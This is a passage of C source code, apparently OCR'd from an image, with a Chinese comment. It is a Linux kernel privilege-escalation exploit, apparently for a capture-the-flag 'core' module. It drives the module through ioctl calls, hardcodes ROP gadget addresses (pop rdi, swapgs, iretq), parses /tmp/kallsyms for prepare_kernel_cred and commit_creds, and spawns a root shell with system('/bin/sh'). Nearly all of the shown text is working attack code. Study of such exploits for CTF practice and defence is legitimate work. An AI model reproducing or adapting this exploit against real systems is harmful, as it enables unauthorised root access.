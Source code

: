 ```c
        error("Failed to get the root!");
        exit(-1);
    }

    success("Successful to get the root. Execve root shell now...");
    system("/bin/sh");
}

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void set_off(int fd, int value)
{
    ioctl(fd, 0x6677889C, value);
}

void core_copy_func(int fd, size_t size)
{
    ioctl(fd, 0x6677889A, size);
}

#define POP_RDI_RET 0xffffffff81000b2f
#define POP_RAX_RET 0xffffffff810520cf
#define POP_RCX_RET 0xffffffff81021e53
#define MOV_RDI_RAX_POP_RBP_JMP_RCX 0xffffffff81532471
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define IRETQ_RET 0xffffffff81050ac2


int main()
{
    FILE *fd_kallsyms = NULL;
    size_t addr = 0, offset = 0;
    char type[0x10], func[0x50];
    char buf[0x100];
    size_t canary = 0;
    int fd = -1;
    int i = 0;
    size_t rop_chain[0x100];

    info("Start to exploit...");
    save_status();

    // 第一步：通过查/kallsyms获得所有函数地址
    fd_kallsyms = fopen("/tmp/kallsyms", "r");
    if (fd_kallsyms == NULL)
    {
        error("Open kallsyms error.");
    }

    while (fscanf(fd_kallsyms, "%lx%s%s", &addr, type, func))
    {

        if (prepare_kernel_cred && commit_creds)
        {
            break;
        }
        if (!strcmp(func, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            success("prepare_kernel_cred addr found.");
```